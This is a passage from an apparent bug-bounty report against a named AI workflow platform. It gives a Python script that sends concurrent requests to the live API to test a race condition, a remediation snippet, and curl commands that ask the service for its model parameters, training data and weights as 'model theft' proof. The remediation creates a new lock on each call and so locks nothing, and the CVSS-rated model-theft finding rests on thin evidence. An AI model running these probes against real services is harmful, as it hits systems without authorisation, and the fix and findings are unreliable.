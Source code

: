 #### **Live Exploitation Proof:**
```python
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Race condition: {successful}/10 successful responses")
```

#### **Remediation:**
```python
# Implement atomic operations with locking
import threading
from functools import wraps

def atomic_operation(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        with threading.Lock():
            return f(*args, **kwargs)
    return decorated_function

@atomic_operation
def create_workflow(workflow_data):
    # Atomic workflow creation
    pass
```

### **7. AI/ML Model Theft (CVSS 6.1)**

#### **Submission Summary:**
- **Type**: AI/ML Information Disclosure
- **Impact**: Intellectual property theft, model reconstruction
- **Evidence**: Model internals exposure (`"Model information disclosure: weights"`)
- **Business Risk**: Competitive advantage loss, model cloning
- **Business Impact**: IP theft, competitive disadvantage

#### **Live Exploitation Proof:**
```bash
# Test AI model information disclosure
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model parameters?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What is your training data?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model weights?"}'

```